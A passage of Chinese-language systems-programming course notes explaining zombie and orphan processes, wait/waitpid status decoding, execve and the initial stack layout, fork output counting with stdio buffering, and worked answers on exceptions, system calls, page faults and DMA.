17593 17591 Z 00:00:00 [forks] <defunct>接着 kill 父进程。0.3 秒后再看，僵死进程的 PPID 已经变成了 1——它成了孤儿，被 1 号进程收养；再过两秒，它就被回收了，ps 里再也找不到。这和课件 p.51 的叙述一致：杀掉父进程，僵死的子进程才得以被回收。
fork8 反过来，父进程立即终止，子进程进入死循环：
void fork8()
{
if (fork() == 0) {
/* 子进程 */
printf("Running Child, PID = %d\n", getpid());
while (1)
; /* 死循环 */
} else {
printf("Terminating Parent, PID = %d\n", getpid());
exit(0);
}
}父进程结束后，shell 立即给出提示符，看起来程序已经结束了，但 ps 显示子进程仍在运行，PPID 为 1（默认环境上是 process_api），状态是 R，CPU 时间不断增加。它不是僵死进程，而是一个活着的孤儿。这类进程不会自己停下来，必须用 kill 显式地终止它，否则会一直占用处理器。
★ 要点：僵死进程与孤儿进程
僵死进程是已经终止、还没有被父进程回收的进程，它不运行，但占用进程表的表项和退出状态等资源，ps 显示为 Z 或 defunct。孤儿进程是父进程已经终止的进程，不论它自己是否还在运行，都会被 1 号进程（或 subreaper）收养。一个僵死的孤儿会被收养者回收；一个运行中的孤儿会继续运行，直到自己终止或被杀死，终止后再由收养者回收。什么情况下会有回收不了的僵死进程？父进程一直活着而又不调用 wait，比如 fork7 的父进程。
16.11 用 wait 和 waitpid 回收子进程（课件 p.53–57）#
父进程调用 wait 回收一个子进程（课件 p.53–54）：
pid_t wait(int *child_status);wait 挂起当前进程，直到它的某一个子进程终止，然后返回这个子进程的 PID。wait 本身是系统调用（底层是 61 号 wait4）：父进程执行 syscall 进入内核，如果还没有子进程终止，内核就让父进程睡眠，转去运行其他进程（其中可能就有它的子进程）；某个子进程终止后，父进程被唤醒，从 wait 返回。课件 p.53 的图就是这个过程：一次 wait 可能跨越很长时间，期间系统运行着别的进程。
⚠ 课件 p.53、p.54、p.56 的函数原型
课件把 wait 写成 int wait(int *child_status)，准确的原型是 pid_t wait(int *child_status)，声明在 sys/wait.h 中。理由与 16.8 节的 fork 相同。
如果 child_status 不是 NULL，wait 会把子进程终止的原因和退出状态编码成一个整数，存进它指向的变量。这个整数不能直接当作退出状态用，要用 sys/wait.h 中定义的宏来解读。表 5 列出常用的几个。
表 5 解读 wait 返回的状态的宏（课件 p.54，教材 8.4.3 节）
| 宏 | 含义 |
|---|---|
| WIFEXITED(status) | 子进程正常终止（调用 exit 或从 main 返回）时为真 |
| WEXITSTATUS(status) | 正常终止时的退出状态。只有 WIFEXITED 为真时才有意义 |
| WIFSIGNALED(status) | 子进程因为一个未被捕获的信号而终止时为真 |
| WTERMSIG(status) | 导致子进程终止的信号的编号。只有 WIFSIGNALED 为真时才有意义 |
| WIFSTOPPED(status) | 子进程当前是停止的时为真（需要 WUNTRACED 选项） |
| WSTOPSIG(status) | 导致子进程停止的信号的编号 |
| WIFCONTINUED(status) | 子进程收到 SIGCONT 重新开始运行时为真 |
下面的测试程序把 wait 的各种返回情况逐一跑了一遍（头文件从略）：
static void report(const char *what, pid_t r, int status)
{
printf("%-34s 返回 %d", what, (int)r);
if (r < 0)
printf("，errno = %d (%s)", errno, strerror(errno));
else if (r > 0) {
if (WIFEXITED(status))
printf("，正常终止，退出状态 %d", WEXITSTATUS(status));
if (WIFSIGNALED(status))
printf("，被信号 %d (%s) 终止",
WTERMSIG(status), strsignal(WTERMSIG(status)));
}
printf("\n");
}
int main(void)
{
int status = 0;
pid_t pid, r; /* 先调用 wait 再读 status：写在同一个参数表里，求值顺序没有保证 */
setvbuf(stdout, NULL, _IOLBF, 0); /* 行缓冲：未输出的内容不会在 fork 时被复制 */
r = wait(&status); report("没有子进程时 wait：", r, status);
if ((pid = fork()) == 0) exit(7);
r = waitpid(pid, &status, 0); report("子进程 exit(7)：", r, status);
if ((pid = fork()) == 0) exit(256 + 3);
r = waitpid(pid, &status, 0); report("子进程 exit(259)：", r, status);
if ((pid = fork()) == 0) exit(-1);
r = waitpid(pid, &status, 0); report("子进程 exit(-1)：", r, status);
if ((pid = fork()) == 0) return 42; /* 从 main 返回 */
r = waitpid(pid, &status, 0); report("子进程从 main return 42：", r, status);
if ((pid = fork()) == 0) {
volatile int z = 0;
return 100 / z; /* 不写 1 / z：gcc 会把它化简成不做除法的比较 */
}
r = waitpid(pid, &status, 0); report("子进程除以零：", r, status);
if ((pid = fork()) == 0) { *(volatile int *)0 = 1; exit(0); }
r = waitpid(pid, &status, 0); report("子进程写地址 0：", r, status);
if ((pid = fork()) == 0) { pause(); exit(0); }
kill(pid, SIGKILL);
r = waitpid(pid, &status, 0); report("子进程被 kill -9：", r, status);
if ((pid = fork()) == 0) { sleep(1); exit(5); }
r = waitpid(pid, &status, WNOHANG); report("WNOHANG，子进程还在运行：", r, status);
r = waitpid(pid, &status, 0); report("再阻塞等待它：", r, status);
r = waitpid(pid, &status, 0); report("对已回收的子进程再 waitpid：", r, status);
return 0;
}默认环境上的结果如下。
表 6 wait 与 waitpid 的返回情况（默认环境实测）
| 情形 | 结果 |
|---|---|
| 没有任何子进程时调用 wait | 返回 −1，errno = ECHILD（10，No child processes） |
| 子进程 exit(7) | 正常终止，退出状态 7 |
| 子进程 exit(259) | 正常终止，退出状态 3 |
| 子进程 exit(−1) | 正常终止，退出状态 255 |
| 子进程从 main 中 return 42 | 正常终止，退出状态 42 |
| 子进程除以零 | 被信号 8（SIGFPE）终止 |
| 子进程写地址 0 | 被信号 11（SIGSEGV）终止 |
| 子进程被 kill -9 | 被信号 9（SIGKILL）终止 |
| waitpid 加 WNOHANG，子进程还在运行 | 立即返回 0 |
| 对已经回收过的子进程再调用 waitpid | 返回 −1，errno = ECHILD |
表中有两点值得记住。第一，退出状态只保留低 8 位：exit(259) 得到 3，因为 259 = 256 + 3；exit(−1) 得到 255，因为 −1 的低 8 位是全 1。所以退出状态的有效范围是 0 到 255。第二，shell 报告的“被信号终止”的进程退出状态是 128 加信号编号，16.4 节的 136（SIGFPE）、139（SIGSEGV）、132（SIGILL）就是这样来的；这是 shell 的约定，wait 得到的原始状态要用 WIFSIGNALED 和 WTERMSIG 解读。
课件 p.55 的 fork9 用 wait 让父进程等子进程结束后再继续：
void fork9()
{
int child_status;
if (fork() == 0) {
printf("HC: hello from child\n");
exit(0);
} else {
printf("HP: hello from parent\n");
wait(&child_status);
printf("CT: child has terminated\n");
}
printf("Bye\n");
}wait 给进程图加了一条跨进程的边：从子进程的 exit 指向父进程的 wait 之后（图 10）。于是 CT 和 Bye 一定排在 HC 之后。HC 和 HP 之间仍然没有约束，所以可行输出有两种：HC HP CT Bye，以及 HP HC CT Bye。课件给出的不可行输出 HP CT Bye HC 违反了那条新边。默认环境上运行 2000 次，两种可行输出分别出现 48 次和 1952 次，不可行的那种从未出现。
图 10 fork9 的进程图（课件 p.55）：wait 增加了一条从子进程的 exit 指向父进程 wait 的边，CT 和 Bye 因此必定在 HC 之后
⚠ 课件 p.55 的残留文字
可行输出的标题写成了 “Feasible output(s): output:”，后面的 “output:” 是多余的残留。两栏是两种不同的可行输出，不是一种输出的两部分。
如果有多个子进程，wait 回收的是任意一个已经终止的子进程（课件 p.56）。fork10 创建 N 个子进程，每个以 100 + i 退出，父进程再调用 N 次 wait，打印每次回收到的是谁：
void fork10()
{
pid_t pid[N];
int i, child_status;
for (i = 0; i < N; i++)
if ((pid[i] = fork()) == 0)
exit(100 + i); /* 子进程 */
for (i = 0; i < N; i++) { /* 父进程 */
pid_t wpid = wait(&child_status);
if (WIFEXITED(child_status))
printf("Child %d terminated with exit status %d\n",
wpid, WEXITSTATUS(child_status));
else
printf("Child %d terminate abnormally\n", wpid);
}
}N 取 5，默认环境上运行三次，第一次的回收顺序是 100、101、102、104、103，后两次都是 100 到 104 的创建顺序。运行 200 次统计，大约九成是创建的顺序，其余几种顺序都出现过。课件 p.56 的备注说，即使加了随机延迟，回收也会“一致地按顺序”发生，因为延迟加在子进程上的同时也加在父进程上，父进程开始 wait 时子进程大多已经终止；关掉父进程的延迟，就能看到顺序的变化。这正说明 wait 的回收顺序没有保证，“通常按顺序”只是调度的结果。
⚠ 课件 p.56–57 的语法小错
两段代码里的 “terminate abnormally” 应为 terminated abnormally。
要等待某一个特定的子进程，用 waitpid（课件 p.57）：
pid_t waitpid(pid_t pid, int *status, int options);pid 大于 0 时，只等待 PID 为 pid 的那个子进程；pid 为 −1 时，等待任意一个子进程，这时 waitpid(-1, &status, 0) 就等价于 wait(&status)。options 默认为 0，表示挂起直到等待的子进程终止。教材 8.4.3 节还介绍了几个选项，其中最常用的是 WNOHANG：如果等待的子进程都还没有终止，立即返回 0，而不是挂起，这让父进程可以在等待的同时做别的事。WUNTRACED 和 WCONTINUED 让 waitpid 也报告子进程的停止和继续，下一讲用到。waitpid 出错时返回 −1：没有可等待的子进程时 errno 为 ECHILD，被信号中断时 errno 为 EINTR。
fork11 把 fork10 的 wait 改成按创建的逆序调用 waitpid：
for (i = N - 1; i >= 0; i--) {
pid_t wpid = waitpid(pid[i], &child_status, 0);
...
}这一次回收的顺序总是 104、103、102、101、100，无论运行多少次（课件 p.57 的备注：“Will always terminate in reverse order”）。注意这里的“终止”严格说是“回收”：子进程实际终止的先后仍然不确定，但父进程逐个指定 PID 等待，回收和打印的顺序就由父进程决定了。
常见问题：wait 和 waitpid 在测试程序里有什么容易写错的地方？
有一个和本讲无关、却很容易踩的 C 语言陷阱。把 waitpid 的调用直接写进另一个函数的参数里，例如 report(waitpid(pid, &status, 0), status)，看上去是“先等待，再把状态传进去”，其实 C 语言没有规定函数参数的求值顺序，status 完全可能在 waitpid 执行之前就被读取，得到一个未初始化的值。正确的写法是先把 waitpid 的返回值存进一个变量，下一条语句再使用 status。
16.12 用 execve 加载并运行程序（课件 p.58–60）#
fork 创建的子进程和父进程运行同一份程序。要让进程运行另一个程序，用 execve（课件 p.58）：
int execve(char *filename, char *argv[], char *envp[]);execve 在当前进程中加载并运行 filename 指向的程序。filename 可以是一个可执行目标文件，也可以是以 #!interpreter 开头的脚本（比如 #!/bin/bash），内核会启动指定的解释器来运行它。argv 是传给新程序的参数列表，按惯例 argv[0] 是程序自己的名字，列表以 NULL 结尾。envp 是环境变量列表，每一项是 "name=value" 形式的字符串（比如 "USER=droh"），同样以 NULL 结尾。
execve 的特殊之处在于它覆盖当前进程的代码、数据和栈：加载成功后，原来的程序完全消失，新程序从它的入口点开始执行。进程的 PID、打开的文件和信号的处理方式保持不变。因此 execve 调用一次，正常情况下从不返回——返回了，就说明出错了，返回值是 −1。
⚠ 课件 p.58 的函数原型
课件的原型参数不带 const，标准原型是 int execve(const char *filename, char *const argv[], char *const envp[])。差别只在类型修饰，不影响用法。
环境变量是一组“名字=值”的字符串，随进程传递，子进程默认继承父进程的全部环境变量。程序里可以用 getenv 读取一个变量的值，用 setenv 或 putenv 设置，用 shell 的 printenv 命令把全部变量列出来。全局变量 environ 指向当前的环境变量列表，可以直接当作 envp 传给 execve。
课件 p.59 的例子在子进程中执行 /bin/ls -lt /usr/include，环境变量沿用当前进程的：
if ((pid = Fork()) == 0) { /* 子进程运行新程序 */
if (execve(myargv[0], myargv, environ) < 0) {
printf("%s: Command not found.\n", myargv[0]);
exit(1);
}
}其中 myargv[0] 是 "/bin/ls"，myargv[1] 是 "-lt"，myargv[2] 是 "/usr/include"，myargv[3] 是 NULL。把这个写法补成完整的程序 runit.c：第一个命令行参数可以换掉要运行的程序，带第二个参数时改用自己构造的环境变量 myenv。打印参数和环境变量的 myecho 是教材图 8-23 的程序。
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/wait.h>
extern char **environ;
int main(int argc, char **argv)
{
pid_t pid;
int status;
char *myargv[] = { argc > 1 ? argv[1] : "/bin/ls", "-lt", "/usr/include", NULL };
char *myenv[] = { "USER=droh", "PWD=/usr/droh", NULL };
printf("parent: pid = %d\n", (int)getpid());
fflush(stdout);
if ((pid = fork()) == 0) { /* Child runs program */
printf("child : pid = %d, about to execve %s\n", (int)getpid(), myargv[0]);
fflush(stdout);
if (execve(myargv[0], myargv, argc > 2 ? myenv : environ) < 0) {
printf("%s: Command not found.\n", myargv[0]);
exit(1);
}
printf("this line is never printed\n");
}
waitpid(pid, &status, 0);
printf("parent: child %d exited with status %d\n", (int)pid, WEXITSTATUS(status));
return 0;
}#include <stdio.h>
#include <unistd.h>
int main(int argc, char *argv[], char *envp[])
{
int i;
printf("myecho: pid = %d\n", (int)getpid());
printf("Command-line arguments:\n");
for (i = 0; argv[i] != NULL; i++)
printf(" argv[%2d]: %s\n", i, argv[i]);
printf("Environment variables:\n");
for (i = 0; envp[i] != NULL; i++)
printf(" envp[%2d]: %s\n", i, envp[i]);
return 0;
}分别以 /bin/ls、./myecho、一个不存在的路径和一个脚本为参数运行 runit，可以看到四件事。
示例：execve 的四种情形（默认环境实测）
子进程执行 /bin/ls。execve 之前子进程打印自己的 PID，execve 之后这个 printf 永远不会执行；父进程用 waitpid 等子进程结束，得到退出状态 0。strace 显示子进程执行了 execve("./myecho", ...) 这样的调用，而父进程的 PID 在整个过程中不变——子进程调用 execve 前后的 PID 也相同，因为 execve 不创建新进程。
把 argv 和 envp 都换成自己构造的列表传给一个打印参数的小程序，新程序打印出的 argv 和 envp 与传入的完全一致：参数和环境变量是原样送达的。
把 filename 换成一个不存在的路径，execve 返回 −1，子进程继续执行原来的程序，打印 "Command not found." 并以状态 1 退出。execve 后面的代码只有在这种情况下才会执行，所以检查返回值是必须的。
把 filename 换成一个以 #!/bin/sh 开头的脚本，内核启动 sh 来运行它，脚本里打印的 PID 就是调用 execve 的那个子进程的 PID。
这四个情形合在一起，就是 shell 执行一条命令的雏形：shell 调用 fork 创建子进程，子进程调用 execve 运行用户输入的程序，父进程调用 waitpid 等待它结束并取得退出状态，然后打印下一个提示符。命令找不到时，报错的是子进程，shell 自己不受影响。真实的 shell 还要处理管道、重定向和信号，但骨架就是这三个调用。
最后看新程序启动时的栈（课件 p.60，图 11）。内核把参数和环境变量的字符串放在栈的最高处，下面依次是 envp 指针数组（以 NULL 结尾）、argv 指针数组（以 NULL 结尾），再下面是 argc。用户代码的 main 被调用时，按照函数调用的约定，argc 在 %rdi 中，argv 在 %rsi 中，envp 在 %rdx 中；全局变量 environ 指向与 envp 相同的地方。
图 11 新程序启动时的栈（课件 p.60，高地址在上）：参数和环境变量的字符串在最高处，其下是以 NULL 结尾的 envp 和 argv 指针数组，再下是 argc；main 被调用时三者分别在 %rdi、%rsi、%rdx 中
这个布局可以用下面的程序核对，它打印 argc、两个指针数组以及它们指向的字符串的地址：
#include <stdio.h>
extern char **environ;
int main(int argc, char *argv[], char *envp[])
{
int n = 0;
while (envp[n])
n++;
printf("&argc (main 的栈帧) %p\n", (void *)&argc);
printf("argv = %p argv[0..%d]，再加一个 NULL\n", (void *)argv, argc - 1);
printf("envp = %p envp[0..%d]，再加一个 NULL (environ = %p)\n",
(void *)envp, n - 1, (void *)environ);
printf("argv[0] 指向 %p \"%s\"\n", (void *)argv[0], argv[0]);
printf("argv[%d] 指向 %p \"%s\"\n",
argc - 1, (void *)argv[argc - 1], argv[argc - 1]);
printf("envp[0] 指向 %p \"%.20s\"\n", (void *)envp[0], envp[0]);
printf("envp[%d] 指向 %p \"%.20s\"\n", n - 1, (void *)envp[n - 1], envp[n - 1]);
printf("envp - argv = %ld 个指针（= argc + 1 = %d）\n",
(long)(envp - argv), argc + 1);
return 0;
}以三个参数启动（argc 为 3），只带 A=1 和 HOME=/root 两个环境变量，在默认环境上的输出是：
&argc (main 的栈帧) 0x7fffffffecbc
argv = 0x7fffffffedf8 argv[0..2]，再加一个 NULL
envp = 0x7fffffffee18 envp[0..1]，再加一个 NULL (environ = 0x7fffffffee18)
argv[0] 指向 0x7fffffffefcf "./stack"
argv[2] 指向 0x7fffffffefdc "arg2"
envp[0] 指向 0x7fffffffefe1 "A=1"
envp[1] 指向 0x7fffffffefe5 "HOME=/root"
envp - argv = 4 个指针（= argc + 1 = 4）地址从低到高依次是 argc、argv 数组、envp 数组、字符串本身，与图一致；environ 和 envp 是同一个地址；envp 与 argv 相差 argc + 1 个指针，多出来的那一个就是 argv 末尾的 NULL。这些地址每次运行都不同（地址空间随机化，第 8 讲），但相对关系不变。第 15 讲 15.9 节讲过，真正的入口点是 _start，它调用 __libc_start_main，再由后者调用 main，图 11 底部留给 main 的栈帧就是在这一步形成的。
16.13 专题：数 fork——输出行数与可行输出#
并发程序的题目大多是两种问法：这段代码会输出多少行，以及哪些输出是可能的。两种问法各有一套固定的做法，这一节把它们归纳出来。16.9 节的进程图是第二套做法的基础，这里补上第一套，以及一个两边都会遇到的陷阱。
数输出的行数#
关键的观察是：每个进程执行且只执行一次 printf，而每次 fork 都让进程数翻倍。所以只要数出程序结束时有多少个进程，就知道有多少行输出。
最简单的情形是 n 次不受限制的 fork，比如作业 8.19：
void foo(int n)
{
int i;
for (i = 0; i < n; i++)
fork();
printf("hello\n");
exit(0);
}循环开始前有 1 个进程。每迭代一次，每个现有的进程都 fork 一次，进程数翻倍，所以循环结束后有 2n 个进程，每个打印一行，共 2n 行。默认环境上对 n = 1 到 6、8、10 逐一实测，输出行数分别是 2、4、8、16、32、64、256、1024，与 2n 完全一致。
fork 出现在条件里时，翻倍只发生在条件为真的那一支。数的方法是按分支分别计算。fork4 的第一次 fork 产生两个进程，但只有父进程执行第二次 fork，所以最终是 3 个进程、3 个 Bye；fork5 同理也是 3 个。fork2 的两次 fork 都没有条件，4 个进程、4 个 Bye。把这个方法写成步骤：先画出每次 fork 之后哪些进程继续执行后面的 fork（画一棵简单的进程家族树就够了），数出最终的进程数，再数每个进程会执行几次目标 printf。
判断可行输出#
行数只是第一步。要判断一个具体的输出是否可能，用 16.9 节的进程图，实践中可以不画图，只列出约束。
第一步，给每个进程编号，写出它会执行的语句序列。子进程从创建它的那个 fork 的返回处开始，继承那时的变量值，但此后各改各的。
第二步，列出所有的先后约束。同一个进程内的语句按程序顺序；父进程的 wait 必须在它等待的那个子进程终止之后；如果父进程先终止，子进程的输出仍会照常出现，父进程的终止不截断子进程。
第三步，对题目给出的每个输出，检查它是否违反某条约束。常见的违反方式有三种：一个进程的输出出现在它还没执行到的位置（子进程的 printf 排在创建它的 fork 之前）；wait 之后的输出出现在子进程的输出之前；同一个进程的两行输出顺序颠倒。
第四步，如果要列出全部可行输出，就按约束做拓扑排序。进程数量少时可以手算：先放没有任何前置约束的语句，每放一个就释放它后面的语句。进程数量多时，用程序枚举更可靠——本讲的全部进程图结论都是这样核对的。
示例：用约束判断 fork9 的输出
fork9 有两个进程。子进程的序列是 HC、exit；父进程的序列是 HP、wait、CT、Bye。约束只有两组：父进程内 HP 在 wait 之前、CT 在 wait 之后、Bye 在最后；wait 在子进程的 exit 之后，因此 CT 和 Bye 都在 HC 之后。HC 和 HP 之间没有约束。所以 HC HP CT Bye 和 HP HC CT Bye 都可行，而 HP CT Bye HC 要求 CT 在 HC 之前，违反第二条约束，不可行。这与课件 p.55 和 16.11 节的实测一致。
一个会改变行数的陷阱：printf 的缓冲区#
上面的推理都有一个隐含假设：printf 的输出在 printf 返回时就已经离开了进程。这个假设在输出到终端时成立，在输出到文件或管道时不成立。
标准输出的缓冲方式取决于它连着谁。连着终端时是行缓冲：遇到换行符就立刻送出。连着文件或管道时是全缓冲：攒满一块（通常 4 KB）才送出，或者等到进程正常终止时由 exit 刷新。缓冲区在用户空间里，是进程地址空间的一部分，所以 fork 会把它一起复制给子进程。
int main(void)
{
printf("hello\n"); /* 全缓冲时，这一行还留在缓冲区里 */
fork(); /* 缓冲区随地址空间一起被复制 */
printf("bye\n");
return 0;
}默认环境上，这个程序输出到终端是 3 行：hello、bye、bye。输出到文件是 4 行：hello、bye、hello、bye。原因是写文件时第一个 hello 还留在缓冲区里，fork 之后父子进程的缓冲区里各有一份，两个进程终止时各刷新一次，hello 就被输出了两遍。把 hello 后面的换行去掉，即使输出到终端也是同样的结果：没有换行符，行缓冲也不会送出，终端上得到两个 hello。
这个现象带来三条实用的结论。第一，统计并发程序的输出顺序时，要么调用 fflush(stdout)，要么用 setvbuf 把标准输出改成行缓冲，要么在运行时加 stdbuf -oL，否则送进管道的输出会粘成整块，6 种交错只看得见 2 种（16.8 节 forkx2 的实验就是这样）。第二，做“数行数”的题目时，先看 printf 的格式串有没有换行、程序有没有刷新缓冲区；作业 8.18 的每个 printf 都带了 fflush，所以不受这个影响，可以直接用进程图分析。第三，printf("hello\n"); fork(); 这种写法在重定向到文件时行为会变，是一个真实的程序错误，不只是考题。
16.14 小结（课件 p.61–62）#
课件的两页小结可以收成一张表。异常是需要非标准控制流的事件，来自处理器外部的是中断，来自内部的是陷阱和故障（16.1–16.2 节）。进程是程序的一次运行，系统中同时有多个活动的进程，单个核上一次只能执行一个，每个进程却觉得自己独占处理器和内存（16.5–16.6 节）。进程控制的四个函数恰好覆盖了进程的一生，而且它们的调用和返回次数各不相同（课件 p.62）：
表 7 进程控制的四个函数（课件 p.62）
| 函数 | 调用与返回 | 作用 |
|---|---|---|
| fork | 调用一次，返回两次 | 创建一个子进程，父子进程从同一点继续，靠返回值区分 |
| exit | 调用一次，从不返回 | 终止当前进程，留下退出状态等待回收 |
| wait、waitpid | 调用一次，返回一次 | 等待并回收一个已终止的子进程，取得它的退出状态 |
| execve | 调用一次，正常情况下不返回 | 用一个新程序替换当前进程的代码、数据和栈，PID 不变 |
最后用一组实测的时间，把本讲几种“转移控制”的代价放在一起比较（默认环境是虚拟机，数字只表示量级，每次测量都会有出入）：
表 8 三种控制转移的开销（默认环境实测，仅作量级参考）
| 操作 | 每次耗时 | 相对函数调用 |
|---|---|---|
| 普通函数调用 | 约 0.4 ns | 1 |
| 系统调用 getpid | 约 100 ns | 约 250 倍 |
| fork 加 _exit 加 wait | 约 120 µs | 约 30 万倍 |
函数调用只是压栈、跳转、返回。系统调用要切换到内核模式再切回来（16.6 节），所以贵两个数量级。fork 要复制进程的执行状态、分配内核数据结构，再由父进程等待回收，又贵三个数量级。这个对比说明了两件事：把系统调用放进最内层循环要小心（第 14 讲讲过程序优化，减少调用次数是其中一种手段）；创建进程是昂贵的操作，需要大量并发时，线程（教材第 12 章，本课程后面的内容）用共享地址空间换取低得多的创建和切换成本。
第二部分 小班研讨题解答（第 16 讲）#
两套研讨题的页码与 2026 版课件一致。第一部分已经完整讲过的内容，这里给出要点并注明小节；题目要求“在计算机上运行命令展示”“在自己写过的程序中找出”的部分，给出默认环境上的实际结果。
研讨题 1：异常处理#
1（1）相对于“异常控制流”，什么是“正常控制流”？转移指令和过程调用指令带来的控制流变化，算异常控制流吗？为什么？
正常控制流是程序自己安排的指令执行序列：处理器顺序地取指令、执行指令，遇到跳转、分支、调用和返回时，按程序的安排转到目标地址（16.1 节）。这些转移都是对程序状态的变化作出的反应，比如根据一个比较的结果决定是否跳转，目标地址在程序里是确定的。
转移指令和过程调用指令带来的控制流变化不算异常控制流。异常控制流的定义是：由系统状态的变化触发、把控制转移到操作系统内核（或更高层的系统机制）的控制转移。跳转和调用的目标、时机完全由程序决定，不涉及内核，也不响应程序之外的事件，所以属于正常控制流。课件 p.6 正是以这两种机制作为“到目前为止我们有的机制”，然后说明它们不够用，才引出异常控制流的。
1（2）为什么计算机系统需要支持“异常控制流”？需要支持哪些场景？
因为有一类事件发生在程序之外，程序无法为它们预先安排跳转（16.1 节）。系统必须有办法打断当前的程序、转去处理这些事件、再决定是否回来。典型的场景有四个。一是 I/O 完成：磁盘或网卡的数据到达时，程序可能正在做别的计算，内核要能及时被叫起来接收数据。二是指令执行出错：除以零、访问非法地址，处理器自己无法继续，必须把控制交给系统决定如何处置。三是用户的干预：按下 Ctrl-C 要能终止当前程序。四是时间管理：定时器周期性到期，内核借此收回处理器、在进程之间调度。
这四个场景分别由异常控制流的不同层次实现：I/O 完成和 Ctrl-C 首先表现为外部设备的中断，指令出错是故障，这三个直接就是异常；第四个是建立在定时器中断之上的上下文切换。再往上，信号让进程之间可以互相通知，非本地跳转让程序可以跨越函数返回，它们是下一讲的内容。
1（3）结合课件第 9～10 页，讲解异常处理程序的运行过程，包括如何触发异常、如何在众多异常处理程序中找到对应的、如何回到“正常控制流”中。
整个过程见 16.1 节和 图 1。
整个过程从触发开始。异常是处理器状态的一次变化：外部设备把中断引脚置为有效（异步，中断），或者正在执行的指令产生了特殊条件、或者就是一条故意的陷阱指令（同步）。处理器在检测到事件后，确定它的异常号 k。
确定了异常号，下一步是在众多处理程序中找到对的那一个。每种事件有唯一的异常号，操作系统在启动时建立了一张异常表，第 k 项存放 k 号异常处理程序的地址。处理器以 k 为下标查表，得到地址，把控制连同返回所需的信息（比如被打断处的指令地址）一起交给那个处理程序。处理程序在内核中运行，此时处理器处于内核模式（16.6 节）。
处理程序结束后怎样回到正常控制流，有三种可能，取决于异常的类型（16.2 节）。返回到下一条指令 I_next，程序接着往下执行，就像什么都没发生（中断和陷阱都是这样）；返回到引起异常的指令 I_current，把这条指令重新执行一遍（缺页故障恢复后就是这样，第二次执行时页面已经在内存里）；或者不返回，直接终止程序（终止类异常，以及处理程序判定无法恢复的故障）。前两种情形下，控制回到用户代码，处理器切回用户模式，正常控制流从返回点继续。
1（4）基于课件第 11 页的图和后续几页，讲解图中的每个名词代表的含义和分类关系。
课件 p.11 的图是一棵分类树，完整的讲解和对照表在 16.2 节，这里给出要点。最顶层是 ECF（异常控制流）。第一层按事件来自处理器外部还是内部，分成异步和同步。异步只有一类，即中断（interrupt）：由外部设备触发，处理程序返回下一条指令，例子是定时器中断和 I/O 中断。同步按返回行为分成三类：陷阱（trap）是有意的，返回下一条指令，例子是系统调用；故障（fault）是无意但可能恢复的，要么重新执行当前指令、要么终止程序，例子是缺页；终止（abort）是无意且不可恢复的，直接终止程序，例子是机器检查。
四个名词的关系是并列的四类，其中陷阱、故障、终止同属同步异常，中断单独属于异步异常。课件 p.13 把非法指令列在终止下面，这个说法不够准确：它的结果是程序被终止，但机制上属于故障，详见 16.2 节的说明框。
1（5）基于课件第 14～16 页，讲解系统调用的用法和作用。在自己写过的程序的反汇编代码中，找出和课件上类型不同的系统调用实例。
系统调用是应用程序请求内核服务的机制，本质上是一次有意触发的陷阱（16.3 节）。用法是：把系统调用号放进 %rax，把最多六个参数放进 %rdi、%rsi、%rdx、%r10、%r8、%r9，执行 syscall 指令；返回后从 %rax 取返回值，一个绝对值很大的负数表示出错。它的作用是给用户程序一扇进入内核的窄门：打开文件、读写数据、创建进程这些需要特权的操作，用户程序都不能自己做，只能通过系统调用委托内核，内核在完成服务后返回下一条指令。
课件 p.15 的例子是 open，使用 2 号系统调用。在默认环境上反汇编今天的 C 库，可以看到三类和课件不同的实例。其一是调用号不同的同一个功能：open 实际执行的是 257 号 openat（mov $0x101, %eax; syscall），strace 里看到的也是 openat(AT_FDCWD, ...)；原因是新的接口把“相对于哪个目录”也作为参数，AT_FDCWD 表示当前目录。其二是 C 库换用了另一条系统调用：exit 走 231 号 exit_group 而不是 60 号 _exit，fork 走 56 号 clone 而不是 57 号 fork（16.3 节的说明框）。其三是课件的表里没有列出的调用：getpid 是 39 号，在库里只有 mov $0x27, %eax; syscall; ret 三条指令；malloc 背后是 12 号 brk 和 9 号 mmap。write（1 号）和 read（0 号）则与课件的表一致，可以作为对照。
1（6）基于课件第 17～18 页，讲解 Fault 相关的示例。
课件的两个例子用的是同一段代码，都是向全局数组 a[1000] 的某个元素写入 13（16.4 节）。
写 a[500] 时，如果这一页不在内存里，写指令触发缺页故障。内核的处理程序为它分配物理页面（或者从磁盘读入），然后返回到这条写指令重新执行，第二次执行时页面已在内存中，写入成功。程序对整个过程无感知，这是故障“可以恢复”的典型情形。默认环境上用缺页计数验证了这一点：申请 64 MB 内存本身几乎不产生缺页，第一次逐页写入产生约 16384 次缺页（正好每页一次），第二次写入一次也不产生。
写 a[5000] 时，目标地址不属于进程的任何合法页面。同样是缺页故障，但处理程序判定这个地址不可恢复，向进程发送 SIGSEGV 信号，进程以“segmentation fault”终止，退出状态 139。
两个例子的反汇编在课件里是 32 位的（movl $0xd, 0x8049d10 与 movl $0xd, 0x804e360，两地址相差恰好 4500 个 int），x86-64 上对应的指令用 PC 相对寻址，objdump 会在注释里给出最终地址（16.4 节）。补充一个课件没有讲到的边界：故障按页检查而不是按数组边界检查，写 a[1005] 仍落在同一页内，程序正常退出而不报错，所以“越界不一定段错误”。
1（7）之前课程讲硬盘时提到中断和 DMA 操作，结合当时课件中的系统总线结构图和本讲的异常控制流，再讲解一次从硬盘传送文件到内存的过程。
第 12 讲 12.8 节讲过这个过程，当时把中断作为结论使用；现在可以用本讲的概念把每一步的控制流讲清楚。系统的结构是：CPU 通过存储总线连到内存，通过 I/O 总线连到磁盘控制器，中间经过 I/O 桥。读一个扇区到内存分三步，每一步的控制流性质不同。
第一步是程序主动发起的。CPU 执行几条存储指令，向磁盘控制器的端口地址写入命令、逻辑块号和目标内存地址。这些指令是普通的内存访问（内存映射 I/O），属于正常控制流。发出命令后，磁盘需要大约 10 ms 才能完成，CPU 不等待，转去执行别的指令——否则这 10 ms 里上千万个时钟周期就浪费了。
第二步完全没有 CPU 参与。磁盘控制器把扇区读出后，自己发起总线事务，把数据直接写入内存，这就是 DMA（直接内存访问）。DMA 期间 CPU 继续执行原来的程序，两者通过总线仲裁共享内存。这一步既不是正常控制流也不是异常控制流，它发生在处理器之外。
第三步是一次中断，也就是本讲的异常控制流。DMA 完成后，磁盘控制器把 CPU 的中断引脚置为有效。CPU 执行完当前指令，按中断号查异常表，进入内核的中断处理程序（处理器同时从用户模式切换到内核模式）。处理程序记录这次 I/O 已经完成，必要时唤醒正在等待这个数据的进程，然后返回到被打断的下一条指令。被打断的程序从 I_next 继续，对这次打断无感知。
